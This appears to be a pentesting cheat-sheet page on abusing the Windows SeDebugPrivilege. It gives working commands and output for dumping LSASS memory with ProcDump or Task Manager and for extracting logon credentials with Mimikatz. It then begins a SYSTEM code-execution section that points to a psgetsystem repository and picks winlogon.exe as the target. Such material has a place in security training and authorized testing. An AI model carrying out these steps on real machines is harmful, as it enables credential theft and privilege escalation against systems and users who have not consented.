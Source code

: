 # SeDebugPrivilege - Dump hashes

Use To run a particular application or service or assist with troubleshooting with administrator privilege without Administrator user

> **Admins take this privilege by default**

### Severity:

* used to capture sensitive information from system memory
* access/modify kernel and application structures

***

## Exploit SeDebugPrivilege

### Debug programs right

```powershell
C:\irix> **whoami /priv**

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
**SeDebugPrivilege**                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set   
```

> **default this privilege is disabled but `ProcDump` can use it if disabled**

### Dump memory - **`ProcDump`**

dump hashes from LSASS

```powershell
C:\irix> **procdump.exe -accepteula -ma lsass.exe lsass.dmp**

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

### Access Hashed - **`Mimikatz`**

```powershell
mimikatz # **log**
Using 'mimikatz.log' for logfile : OK

mimikatz # **sekurlsa::minidump lsass.dmp**
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # **sekurlsa::logonpasswords**
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
```

***

### Dump Memory - Manual

**open task manger → Details → lsass process → create dump file**

![image.png](<../../../../.gitbook/assets/image (5).png>)

***

## **Remote Code Execution as SYSTEM**

[https://github.com/decoder-it/psgetsystem.git](https://github.com/decoder-it/psgetsystem.git)

First, open an elevated PowerShell console (right-click, run as admin, and type in the credentials for the `jordan` user). Next, type `tasklist` to get a listing of running processes and accompanying PIDs.

```powershell
PS C:\irix> **tasklist** 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

<figure><img src="../../../../.gitbook/assets/image 1 (4).png" alt=""><figcaption></figcaption></figure>
